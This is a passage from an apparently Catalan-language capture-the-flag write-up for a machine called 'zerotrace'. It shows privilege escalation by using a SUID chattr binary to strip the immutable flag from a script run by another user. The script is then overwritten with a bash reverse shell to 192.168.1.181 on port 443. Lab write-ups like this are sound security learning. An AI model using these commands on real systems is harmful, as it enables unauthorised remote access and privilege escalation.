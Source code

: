 ![shelldredd process](../../../assets/images/zerotrace/shelldreddprocess.png)

```raw
CMD: UID=1003  PID=1475  | /bin/sh -c /bin/bash /opt/.nobodyshouldreadthis/destiny
```

En examinar el binari `destiny`, sembla que podem modificar-lo i no conté cap script, per la qual cosa probablement aquest procés estigui mostrant un error. No obstant això, en intentar modificar-lo no podrem ja que té el flag d'inmutable dels atributs especials del sistema de fitxers EXT.

```bash
lsattr /opt/.nobodyshouldreadthis/destiny
```

![destiny inmutable](../../../assets/images/zerotrace/inmutable.png)

Utilitzem el binari `chattr` amb permisos SUID per treure el flag d'inmutable.

```bash
chattr -i /opt/.nobodyshouldreadthis/destiny
```

![destiny no inmutable](../../../assets/images/zerotrace/inmutable2.png)

Ara podem modificar l'arxiu `destiny`, afegint un shell invers que apunti a la nostra màquina atacant en el port 443.

```bash
echo 'bash -i >& /dev/tcp/192.168.1.181/443 0>&1' > /opt/.nobodyshouldreadthis/destiny
```
